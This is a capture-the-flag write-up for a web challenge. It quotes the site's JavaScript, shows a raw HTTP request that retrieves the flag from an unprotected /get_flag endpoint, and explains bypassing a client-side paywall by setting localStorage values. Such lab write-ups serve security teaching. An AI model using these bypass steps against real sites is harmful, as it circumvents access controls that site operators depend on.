



# Intro


# Information gathering Part 1
Entering the page the user is prompted with a popup / paywall to access the content in the page. None of the button is clickable.  


So first step here is to analyze the source code. In the JavaScript source code a function called ```_gtf``` (possible standing for "```get the flag```"). Diving deeper into the functions a endpoint ```/get_flag``` is found. Using the ```fetch``` API to make a ```POST``` request with the ```Content-Type``` header set to ```application/json```. But nothing else seem to be needed to access the the flag object. 
```javascript
const _gtf = function() {
    if (!window._verifyAccess()) return false;
        fetch('/get_flag', {
	        method: 'POST',
            headers: {
            'Content-Type': 'application/json'
            }
        })
    .then(response => response.json())
    .then(data => {
        if (data.flag) {
            document.getElementById('flag-result').textContent = 'Congratulations! The flag is: ' + data.flag;
        } else {
            document.getElementById('flag-result').textContent = 'Error: ' + data.error;
        }
    })
    .catch(error => {
        console.error('Error:', error);
        document.getElementById('flag-result').textContent = 'Error retrieving the flag. Please try again.';
    });
}
```

# Attack Part 1
Making a ```POST``` request to the ```/get_flag``` endpoint with the header mentioned in the code.  
Request:  
```http
POST /get_flag HTTP/1.1
Host: 64.225.103.251:5007
Cookie: session=eyJzZXNzaW9uX2lkIjoiMDk5MDA0MzQtZjNjNy00MzFiLWE2ZTQtYzhkYTVlMTViMTM2Iiwic3RhcnRfdGltZSI6MTc0NjExNjU0M30.aBOfvw.HDtWmbob0XAlyclvGZg6a-ncxmU
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://black-pyramid.appsec.nu:8000/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
Content-Type': 'application/json
```


Response:  
```http
HTTP/1.1 200 OK
Server: nginx/1.27.4
Date: Thu, 01 May 2025 16:31:07 GMT
Content-Type: application/json
Content-Length: 45
Connection: keep-alive

{"flag":"O24{scr1b3_0f_7h3_h1dd3n_p4pyru5}"}
```

# Information gathering Part 2
Another JavaScript snippet found in the source code for the client tells that two "items" is stored in localStorage of the browser named ```userRank``` and ```papyrusUnlocked```.
```javascript
(function() {
    const _ur = "userRank";
    const _pu = "papyrusUnlocked";

    window._checkAccess = function() {
        const a = localStorage.getItem(_ur);
        const b = localStorage.getItem(_pu);

        const validOptions = ['visitor', 'acolyte', 'scribe', 'royal_scribe', 'pharaoh', 'deity'];
        const validRanks = [validOptions[2], validOptions[3], validOptions[4]];
                
        if (validRanks.indexOf(a) >= 0 && b === 'true') {
            document.getElementById('adwall').style.display = 'none';

            Array.from(document.querySelectorAll('.blurred-content'))
                .forEach(function(el) { 
                    el.classList.remove('blurred-content'); 
                });
                    
            const flagSection = document.querySelector('.flag-container');
                if (flagSection) flagSection.style.pointerEvents = 'auto';
        }
    };
})();
```


The function looks for two keys ```userRank``` and ```papyrusUnlocked```
And the valid options for a user are:
```javascript
['visitor', 'acolyte', 'scribe', 'royal_scribe', 'pharaoh', 'deity'];
```


But the only valid ranks for access to the content are set in this array.  
Valid ranks for access: ```['scribe', 'royal_scribe', 'pharaoh']``` 
```javascript
const validRanks = [validOptions[2], validOptions[3], validOptions[4]];
```


And this if statement checks if the users rank is within the approved "range" and that the key ```papyrusUnlocked``` is set to ```true```. And if both keys are set to the approved values "hides" the ```adwall``` element and removes the ```.blurred-content``` from the ```class``` attribute of every element in the ```el``` variable.  
```javascript
if (validRanks.indexOf(a) >= 0 && b === 'true') {
                    document.getElementById('adwall').style.display = 'none';
                    
                    Array.from(document.querySelectorAll('.blurred-content'))
                         .forEach(function(el) { 
                             el.classList.remove('blurred-content'); 
                         });
                    
                    const flagSection = document.querySelector('.flag-container');
                    if (flagSection) flagSection.style.pointerEvents = 'auto';
                }
```


So by setting theses to keys to the approved values in the localStorage the user could bypass the paywall / adwall.  

